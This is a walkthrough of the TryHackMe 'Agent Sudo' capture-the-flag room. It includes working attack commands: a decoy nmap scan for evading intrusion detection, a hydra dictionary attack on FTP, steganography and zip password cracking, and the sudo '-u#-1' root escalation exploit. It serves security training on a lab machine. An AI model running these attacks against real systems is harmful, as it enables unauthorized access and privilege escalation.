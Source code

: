 ![intro](https://github.com/user-attachments/assets/f0320ee6-9e24-44cf-bf4d-98c32338a829)

# tryhackme-Agent-Sudo
This is a walkthrough for the tryhackme CTF Agent Sudo. I will not provide any flags or passwords as this is intended to be used as a guide.

## Scanning

First off, let's store the target IP as a variable for easy access.

Command: export ip=xx.xx.xx.xx

Next, let's run an nmap scan on the target IP:
```bash
nmap -A -v $ip -D RND:10 -oN nmap.txt
```

Command break down:

-A: This flag enables aggressive scanning. It combines various scan types (like OS detection, version detection, script scanning, and traceroute) into a single scan.

-v: increases verbosity, providing more detailed output during the scan.

—$ip: provides the target IP we stored as the variable $ip.

-D RND:10 Nmap can send additional packets to confuse network intrusion detection systems (IDS) or hide the true source of the scan by randomly selecting up to 10 decoy IP addresses.

-oN nmap.txt: This option specifies normal output that should be saved to a file named “nmap.txt.

This scan reveals three open ports:

![nmap](https://github.com/user-attachments/assets/eccc0012-bd2f-408e-99c1-5a3f32620794)

First, let's investigate the websever on port 80.
We are greeted with a message from Agent R:

![agent R](https://github.com/user-attachments/assets/6277fcae-9082-4506-a524-d4d8036d2b0c)

The User-Agent is a crucial part of the HTTP headers sent with every request. It helps servers identify the application, operating system, vendor, and version of the requesting user agent. In this case we can assume that agent R is one of the code names. Let's try spoofing as user-agent R on this url. 
```bash
curl -A "R" -L $ip
```
Command explanation:
-A let's use specify the user agent "R"
-L will follow redirects

We get a different response:

![agent R response](https://github.com/user-attachments/assets/a9312aa2-68ff-464e-a19b-d852219dc0e5)

This reponse gives us the hint that since there are 25 user-agents, and 26 letters in the alphabet, and agent R is one of them, that the user agent is most likely one of the other letters. Let's try the same command replacing "R" with "A", "B" and so on.

I wrote a bash script to use the cmd curl -A 'x' $ip -L that will loop through capital letters A to Z, get an MD5 hash of the curl response, then checks if the current response is different from the previous one, if the response is different it prints the User-Agent, response hash, and full curl output. If the response is the same as the previous one, it skips to the next letter without ouput.

![user-agent sh](https://github.com/user-attachments/assets/d0b94486-efcc-4996-920b-def30dc28daa)

```
bash
#!/bin/bash

# Function to get MD5 hash of cu response
get_response_hash() {
        curl -s -A "$1" $ip -L | md5sum | awk '{print $1}'
}

# Loop through capital letters A to Z
for letter in {A..Z}; do
        current_response=$(get_response_hash "$letter")

        if [ "$first_run" = true ] || [ "$current_response" != "$previous_response" ]; then
                echo "User-Agent: $letter"
                echo "Response hash: $current_response"
                curl -A "$letter" $ip -L
                echo -e "\n----------\n"


                previous_response=$current_response
                first_run=false
        fi
done
```

![user-agent-response](https://github.com/user-attachments/assets/be8d6a1b-3929-4857-9a54-b4efef2b9955)


This script returns a few results, one of which shows use that the correct user-agent is C. It also alerts us to the fact that agent C has a weak password, so we should attempt a dictionary attack with hydra and the wordlist rockyou.txt. Looking back our nmap scan, the password will most likely be for ftp or ssh. I attempted anonymous login to ftp: ftp $ip, but it prompted for a password, so let's try the password attack on the ftp server:
```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt $ip ftp
```
After about a minute, I hydra revealed the ftp password. Let's go ahead and log into the ftp server as chris:

![ftp](https://github.com/user-attachments/assets/680a6191-3213-4c78-8a7a-516c51a7aa33)

We're in! Let's use the get command to get this image files onto our machine:
```bash
get <file name>
```
First, let's cat To_agentJ.txt:


![To_agentJ txt](https://github.com/user-attachments/assets/ae98bb71-b5fa-4334-8ece-d8915c72bcaf)
Ok, I tried exiftool and strings on cute-alien.jpg but didn't yield anything. Then I tried steghide, but it prompts for a password, so let's attack it with stegcracker:

![stegcracker](https://github.com/user-attachments/assets/e9a29a66-dd5d-450b-8d44-23411b21025f)

While stegcracker is running, let's investigate cutie.png.
First, I tried exiftool and strings on it, and strings revealed an embedded txt file:
```bash
strings cutie.png
```
![strings cutie](https://github.com/user-attachments/assets/aacac05e-b801-4149-b036-6e2a295ea515)

Now, let's try binwalk on it:

![binwalk](https://github.com/user-attachments/assets/49a337c8-972f-4ebf-94c8-e629a1379699)

binwalk extracted a new directory _cutie.png.extracted.
In this directory we see the encryped 8702.zip file. Another thing to take note of, is that To_agentJ.txt is currently empty, because it's contents haven't been extracted. We will need to crack the zip file by first using zip2john, then john to crack the resulting hash:


![zip2john](https://github.com/user-attachments/assets/81d435d3-1d32-4a9e-99c7-5ecdb27341cc)
Now that we have the password, we'll use the tool 7z to extract the contents:
```bash
7z e 8702.zip
```

Now, let's read To_agentJ.txt. It reveals a message from Agent R. This string appears to be base64 encoded, so we'll need to decode it:

![base64 -d](https://github.com/user-attachments/assets/31c31d75-89da-40f2-95c7-8f2aca19ed5b)

Now, let's check back on the jpg file that's now been cracked using stegcracker:

![stegcracker_result](https://github.com/user-attachments/assets/88edafc7-9d8b-4974-83a5-e62ea715a570)
It reveals a message from chris and contains the username and password.
Great! Let's try to ssh onto the target with these credentials:
```bash
ssh james@$ip
```

We are now logged in via ssh as james, and the user flag is in his home directory.

There is also the question about the photo- Alien_autospy.jpg.
Let's tranfer this from the target machine to our attack box. Run this command from the target machine, from the jame's home directory:
```bash
python3 -m http.server
```
And wget from the attack box to get it, replace $ip with actual target IP:
```bash
wget http://$ip:8000/Alien_autospy.jpg
```
Now that we have the jpg, go to https://images.google.com/, and upload the jpg. 
Search the results and, as per the hint, keep an eye out for the foxnews site to get the answer.

# Privilege Escalation
After running sudo -l to check jame's privileges, we see james can run:
(ALL, !root) /bin/bash
This means james cannot run /bin/bash as root, but ALL implies that he can run /bin/bash as any user. In a case like this, it's a good idea to google it, especially when the question is asking for the cve #.
I clicked the result that contains sudo 1.8.27 - Security Bypass. I pasted in this cve and it is correct!
I then ran sudo -V to check the sudo version:


![sudo -V](https://github.com/user-attachments/assets/8593f750-0ada-4c3b-9641-d1185ad204bd)

This sudo version is in the vulnerable range and fits the description like a glove!
I ran the exploit:
```bash
sudo -u#-1 /bin/bash
```
James has now escalted to root!
Now, just cat root.txt to answer the last two questions.
I hope you enjoyed this room and learned a lot!



